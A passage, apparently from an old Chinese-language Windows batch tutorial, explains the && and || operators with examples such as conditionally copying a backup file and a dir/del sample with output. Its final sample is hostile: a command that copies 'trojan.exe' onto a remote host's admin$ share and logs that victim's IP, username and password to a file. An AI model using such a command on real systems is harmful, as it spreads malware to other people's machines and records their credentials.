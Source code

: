 在做备份的时候可能会用到这种命令会比较简单，如：
dir file://192.168.0.1/database/backup.mdb &amp;&amp; copy file://192.168.0.1/database/backup.mdb E:backup
如果远程服务器上存在backup.mdb文件，就执行copy命令，若不存在该文件则不执行copy命令。这种用法可以替换IF exist了 ：）

<span style="color: #339966;">3.||</span>

Usage：第一条命令 || 第二条命令 [|| 第三条命令...]

用这种方法可以同时执行多条命令，当碰到执行正确的命令后将不执行后面的命令，如果没有出现正确的命令则一直执行完所有命令；

Sample：
C:\Ex4rch&gt;dir sometips.gif || del sometips.gif
Volume in drive C has no label.
Volume Serial Number is 0078-59FB

Directory of C:\Ex4rch

2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
0 Dir(s) 768,696,320 bytes free

组合命令使用的例子：
sample：
@copy trojan.exe \%1admin$system32 &amp;&amp; if not errorlevel 1 echo IP %1 USER %2 PASS %3 &gt;&gt;victim.txt

</div>